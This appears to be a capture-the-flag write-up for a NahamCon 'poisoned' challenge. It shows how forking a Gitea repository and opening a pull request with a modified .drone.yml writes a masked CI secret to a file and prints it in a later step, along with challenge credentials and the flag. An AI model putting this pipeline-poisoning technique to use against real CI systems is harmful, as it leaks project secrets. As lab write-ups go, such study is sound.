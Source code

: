 # How to

This was a fun one

First starting up the system and have a look into the servers

### Gitea

http://git.challenge.nahamcon.com:32637/ does have one repository with a done ci yaml including following line

```
steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG"
   environment:
      FLAG:
        from_secret: flag
```

So the flag is printed out with echo.
Let's see the latest build  on http://drone.challenge.nahamcon.com:32637/JustHacking/poisoned/10/1/2

```
+ echo "Running from the $DRONE_BRANCH branch"

Running from the master branch

+ echo "Flag -> $FLAG"

Flag -> [secret:flag]
```

As expected Drone CI is mascerading the secret.

Let's see if we can change the code to trigger a new build.
![image](assets/changning_a_file_1.JPG)

We have to fork the repository.

So log in with the provided credentials (developer:2!W4S5J$6e), create a fork an push the change.

![image](assets/changning_a_file_2.JPG)
Having a look into drone CI, the commit did not trigger a new build.
So let's create a PR and we will see, that a new build was triggered in Drone.
![image](assets/Pull_Request_Change1.JPG)
![image](assets/Pull_Request_Drone1.JPG)


Since most CI servers only mask the credentials they use within the output let's try to save the flag and then read it out outside of the secretive context, changing the .drone.yml-file to


```
---
kind: pipeline
type: exec
name: test pipeline master

platform:
  os: linux
  arch: amd64

steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG" > secret.txt
    environment:
      FLAG:
        from_secret: flag
  - name: hack-the-world
    commands:
    - cat secret.txt
trigger:
  branch:
    - master
```

The Build will write the secret to file secret.txt.
In a different step, outside of the secret-context of step `master` the file is read out and should in theory contain the flag.

Since the PR is still open a new build is triggered and we see a new step `hack-the-world` with our flag
![image](assets/Reveal_Flag.JPG)

Flag: flag{0ee4a0101bb992911c2c56e17d9b86cd}


